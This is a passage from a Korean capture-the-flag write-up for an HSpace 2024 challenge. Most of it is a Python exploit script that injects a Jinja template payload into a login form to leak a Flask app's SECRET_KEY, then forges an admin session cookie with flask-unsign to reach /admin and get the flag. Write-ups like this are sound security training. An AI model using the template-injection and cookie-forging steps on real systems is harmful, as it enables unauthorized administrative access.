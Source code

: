 `SECRET_KEY`를 사용하여 `admin` 계정의 JWT 토큰을 생성해주면, `/admin` 경로에 접근이 가능하여 플래그를 획득할 수 있습니다.               
        
## Exploit Code     
```python
import requests 
import os

url = "http://3.36.132.18:4000"

s = requests.session() 
r = requests.post(
        f"{url}/login", 
        data={
            "username": {% raw %}"{{config}}"{% endraw %},
            "password": "test"
        }
)
        
secret_key = r.text[r.text.find("SECRET_KEY") + 22: r.text.find("SECRET_KEY") + 82]

header = {"admin": True}
cmd = "flask-unsign --sign --cookie \"" + "{'admin': 'true'}" + f"\" --secret '{secret_key}'"
print(cmd)
jwt_encode = os.popen(cmd).read().split("\n")[0]
        
print("jwt:", jwt_encode)

r = requests.get(
    f"{url}/admin",
    cookies={"session":jwt_encode}
)

if "Hello" in r.text:
    print(r.text)
    exit()
```    
       
<img src="/assets/images/ctf/2024/hspace/randomsecret/flag.jpg" width="700px"/>      
                
### Flag      
hspace{Th3_s3cret_key_Mu5t_nOT_Be_le4KeD!!!}    